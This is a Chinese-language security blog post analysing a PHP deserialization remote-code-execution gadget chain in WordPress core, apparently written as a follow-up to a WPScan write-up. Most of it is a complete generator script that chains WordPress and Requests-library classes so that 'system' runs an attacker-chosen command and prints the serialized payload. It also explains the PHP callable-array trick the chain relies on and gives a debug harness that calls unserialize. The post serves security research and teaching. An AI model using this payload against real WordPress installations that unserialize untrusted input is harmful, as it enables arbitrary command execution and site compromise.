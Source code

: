 ```yaml
---
title: "WordPress Core RCE Gadget 分析"
date: 2023-10-26T14:38:24+08:00
lastmod: 2023-10-26T14:38:24+08:00
draft: false
author: "X1r0z"

tags: ['wordpress', 'rce']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


WordPress Core RCE Gadget 分析

<!--more-->

https://wpscan.com/blog/finding-a-rce-gadget-chain-in-wordpress-core/

前些天在 p 牛知识星球看到的, 当时跟着上面的分析过程自己构造了一遍, 感觉思路确实很有意思

本来想写篇文章的, 但是那几天有点忙, 后边就把这个事给忘了 (

分享下自己构造的 gadget

```php
<?php

namespace WpOrg\Requests {
	class Session {
		public $url;
		public $headers;
		public $data;
		public $options;

		public function __construct( $url, $headers, $data, $options ) {
			$this->url     = $url;
			$this->headers = $headers;
			$this->data    = $data;
			$this->options = $options;
		}
	}

	class Hooks {
		protected $hooks;

		public function __construct() {
			$this->hooks = [
				'requests.before_request' => [
					'1' => [ [$this, "dispatch"] ]
				],
				'https://exp10it.cn/Name' => [
					'1' => ['system']
				]
			];
		}
	}
}

namespace {

	use WpOrg\Requests\Hooks;
	use WpOrg\Requests\Session;

	class WP_Theme {
		private $headers;
		private $parent;

		public function __construct( $headers, $parent ) {
			$this->headers = $headers;
			$this->parent  = $parent;
		}
	}

	class WP_Block_List {
		protected $blocks;
		protected $available_context;
		protected $registry;

		public function __construct( $blocks, $available_context, $registry ) {
			$this->blocks            = $blocks;
			$this->available_context = $available_context;
			$this->registry          = $registry;
		}
	}

	class WP_Block_Type_Registry {
		private $registered_block_types;

		public function __construct( $registered_block_types ) {
			$this->registered_block_types = $registered_block_types;
		}
	}

	$hooks_obj = new Hooks();

	$options = ['hooks' => $hooks_obj];

	$parent = new Session('https://exp10it.cn/', ['id'], [], $options);

	$wp_theme_another = new WP_Theme(null, $parent);

	$registry = new WP_Block_Type_Registry($wp_theme_another);

	$block = ['blockName' => 'Parent Theme'];
	$blocks = ['Name' => $block];

	$wp_block_list = new WP_Block_List($blocks, [], $registry);

	$wp_theme = new WP_Theme($wp_block_list, null);

	echo urlencode(serialize($wp_theme));

}
```

wpscan 原文讲的肯定比我清楚, 所以这里我就简单分享一下在构造 gadget 过程中用到的一个小 trick

我们都知道 PHP 7 支持可变函数, 通过可变函数可以调用一个类的静态方法, 这个在一些 CTF 题目里面也会遇到, 比如

```php
class A {
    public static function test() {
        echo 'hello a';
    }
}

$a = 'A::test'; // 调用 A 的 test 静态方法
$a(); // hello a
```

但是在 wordpress gadget 的构造过程中, 需要递归调用一次 `WpOrg\Requests\Hooks` 类的 dispatch 方法来将所有参数左移一位以方便控制参数的数量

而 dispatch 是一个普通的方法, 简单来说就是如下的场景

```php
class B {
    public function test() {
        echo 'hello b';
    }
}

$b = ...; // 控制 $b 使得能够调用 test 方法
$b();
```

这时候只需要将 $b 设置成一个数组, 数组的第一个位置是实例对象, 第二个位置是要调用的方法, 然后直接动态调用这个数组, 即可调用到 test 方法

```php
$b = [new B(), 'test'];
$b(); // hello b
```

同时这个 trick 对于调用静态方法也是适用的

```php
$c = ['A', 'test'];
$d = [new A(), 'test'];
$c(); // hello a
$d(); // hello a
```

有趣的是这个就在官方文档最底下, 但是不知道为啥 note 的评分是负的

[https://www.php.net/manual/zh/functions.variable-functions.php](https://www.php.net/manual/zh/functions.variable-functions.php)

所以最终 gadget Hooks 部分的 payload 大致就是如下这种形式

```php
class Hooks {
    protected $hooks;

    public function __construct() {
        $this->hooks = [
            'requests.before_request' => [
                '1' => [ [$this, "dispatch"] ]
            ],
            'https://exp10it.cn/Name' => [
                '1' => ['system']
            ]
        ];
    }
}
```

看了下 phpggc 的 payload, 它是弄了两个 Hooks 实例对象: $hooks 和 $hooks_recurse_once, 然后使得 $hooks 的 dispatch 去调用 $hooks_recurse_once 的 dispatch, 不过思路都是差不多的

最后说下如何调试 wordpress 的 gadget, 按照原文中写数据库的方法肯定可以, 但是比较麻烦, 因为是调试所以得越简单越好

只需要 require 当前目录下的 `wp-load.php`, 然后调用 `wp()`函数初始化, 之后直接调用 unserialize 进行测试即可

```php
<?php

require_once __DIR__ . '/wp-load.php';

// Set up the WordPress query.
wp();

$a = unserialize(urldecode("..."));

echo $a;
```

